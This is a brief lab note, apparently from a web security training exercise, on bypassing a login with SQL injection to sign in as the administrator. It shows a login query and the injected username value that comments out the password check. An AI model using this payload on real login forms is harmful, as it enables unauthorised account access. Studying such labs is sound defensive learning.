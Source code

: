 SQLi injection - Login functionality

End Goal: perform SQLi attack and log in as the *administrator* user.

Analysis
---

Possible query to login

```sql
SELECT firstname FROM users WHERE username='admin' AND password='admin'
```

```sql
SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'
```

